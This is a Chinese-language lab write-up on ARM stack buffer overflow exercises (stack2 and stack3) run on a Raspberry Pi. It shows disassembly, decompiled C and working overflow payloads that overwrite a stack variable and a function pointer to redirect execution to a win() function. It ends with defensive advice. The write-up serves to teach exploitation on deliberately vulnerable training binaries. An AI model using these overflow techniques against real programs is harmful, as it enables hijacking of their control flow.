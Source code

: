 # <center>arm栈溢出实验2</center>

## 实验概述

### 【目的】
1. 运行stack2，获得输出`you have correctly modified the variable`
2. 运行stack3，获得输出`code flow successfully changed`
### 【环境】
Linux
### 【工具】
python,IDA pro

### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。

## 实验步骤

### 【步骤】
#### stack2
先运行程序，可以发现程序主要从环境变量GREENIE读取用户输入数据。
```bash
pi@raspberrypi:~/ARM-challenges $ ./stack2
stack2: please set the GREENIE environment variable
pi@raspberrypi:~/ARM-challenges $ export GREENIE='hello'
pi@raspberrypi:~/ARM-challenges $ ./stack2
Try again, you got 0x00000000
```
```
pi@raspberrypi:~/ARM-challenges $ gdb stack2 -q
[*] No debugging session active
GEF for linux ready, type `gef' to start, `gef config' to configure
56 commands loaded for GDB 7.7.1 using Python engine 2.7
[*] 4 commands could not be loaded, run `gef missing` to know why.
Reading symbols from stack2...(no debugging symbols found)...done.
gef> disass stack2
No symbol table is loaded.  Use the "file" command.
gef> disass main
Dump of assembler code for function main:
   0x000104e4 <+0>:	push	{r11, lr}
   0x000104e8 <+4>:	add	r11, sp, #4
   0x000104ec <+8>:	sub	sp, sp, #80	; 0x50
   0x000104f0 <+12>:	str	r0, [r11, #-80]	; 0x50
   0x000104f4 <+16>:	str	r1, [r11, #-84]	; 0x54
   0x000104f8 <+20>:	ldr	r0, [pc, #108]	; 0x1056c <main+136>
   0x000104fc <+24>:	bl	0x10374
   0x00010500 <+28>:	str	r0, [r11, #-8]
   0x00010504 <+32>:	ldr	r3, [r11, #-8]
   0x00010508 <+36>:	cmp	r3, #0
   0x0001050c <+40>:	bne	0x1051c <main+56>
   0x00010510 <+44>:	mov	r0, #1
   0x00010514 <+48>:	ldr	r1, [pc, #84]	; 0x10570 <main+140>
   0x00010518 <+52>:	bl	0x103a4
   0x0001051c <+56>:	mov	r3, #0
   0x00010520 <+60>:	str	r3, [r11, #-12]
   0x00010524 <+64>:	sub	r3, r11, #76	; 0x4c
   0x00010528 <+68>:	mov	r0, r3
   0x0001052c <+72>:	ldr	r1, [r11, #-8]
   0x00010530 <+76>:	bl	0x10368
   0x00010534 <+80>:	ldr	r3, [r11, #-12]
   0x00010538 <+84>:	ldr	r2, [pc, #52]	; 0x10574 <main+144>
   0x0001053c <+88>:	cmp	r3, r2
   0x00010540 <+92>:	bne	0x10550 <main+108>
   0x00010544 <+96>:	ldr	r0, [pc, #44]	; 0x10578 <main+148>
   0x00010548 <+100>:	bl	0x10380
   0x0001054c <+104>:	b	0x10560 <main+124>
   0x00010550 <+108>:	ldr	r3, [r11, #-12]
   0x00010554 <+112>:	ldr	r0, [pc, #32]	; 0x1057c <main+152>
   0x00010558 <+116>:	mov	r1, r3
   0x0001055c <+120>:	bl	0x1035c
   0x00010560 <+124>:	mov	r0, r3
   0x00010564 <+128>:	sub	sp, r11, #4
   0x00010568 <+132>:	pop	{r11, pc}
   0x0001056c <+136>:	strdeq	r0, [r1], -r4
   0x00010570 <+140>:	strdeq	r0, [r1], -r12
   0x00010574 <+144>:	stceq	13, cr0, [r10, #-40]	; 0xffffffd8
   0x00010578 <+148>:	andeq	r0, r1, r12, lsr #12
   0x0001057c <+152>:	andeq	r0, r1, r8, asr r6
End of assembler dump.
```
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest; // [sp+8h] [bp-50h]@3
  int v5; // [sp+48h] [bp-10h]@3
  char *src; // [sp+4Ch] [bp-Ch]@1

  src = getenv("GREENIE");
  if ( !src )
    errx(1, "please set the GREENIE environment variable\n");
  v5 = 0;
  strcpy(&dest, src);
  if ( v5 == 218762506 )
    puts("you have correctly modified the variable");
  else
    printf("Try again, you got 0x%08x\n", v5);
  return 0;
}
```
可以看到我们这里需要溢出GREENIE使得v5为218762506，通过计算0xC - 0x10 = 64，那么有
```bash
pi@raspberrypi:~/ARM-challenges $ export GREENIE=`python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"'`
pi@raspberrypi:~/ARM-challenges $ ./stack2
you have correctly modified the variable
```
#### stack3

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+Ch] [bp-4Ch]@1
  void (*v5)(void); // [sp+4Ch] [bp-Ch]@1

  v5 = 0;
  gets(&s);
  if ( v5 )
  {
    printf("calling function pointer, jumping to 0x%08x\n", v5);
    v5();
  }
  return 0;
}
int win()
{
  return puts("code flow successfully changed");
}
```
其中有
```
0001047c <win>:
   1047c:	e92d4800 	push	{fp, lr}
   10480:	e28db004 	add	fp, sp, #4
   10484:	e59f0004 	ldr	r0, [pc, #4]	; 10490 <win+0x14>
   10488:	ebffffa5 	bl	10324 <puts@plt>
   1048c:	e8bd8800 	pop	{fp, pc}
   10490:	00010560 	.word	0x00010560
```
```
pi@raspberrypi:~/ARM-challenges $ strings stack3 -tx
    134 /lib/ld-linux-armhf.so.3
    239 libc.so.6
    243 gets
    248 puts
    24d abort
    253 printf
    25a __libc_start_main
    26c __gmon_start__
    27b GLIBC_2.4
    560 code flow successfully changed
    580 calling function pointer, jumping to 0x%08x
    6e0 GCC: (Raspbian 4.9.2-10) 4.9.2
```
所以我们只需要将程序跳转到执行win函数即可。
```
pi@raspberrypi:~/ARM-challenges $ python -c "print 'a'*64 + '\x7c\x04\x01\x00'" | ./stack3
calling function pointer, jumping to 0x0001047c
code flow successfully changed

```
### 【总结】

这次实验通过栈溢出简单的熟悉了arm下环境变量的设置和c语言的函数指针，需要注意的是，通过export设置的环境变量只对当前终端有效。
可以发现，要使栈溢出发生，要满足以下条件：

- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。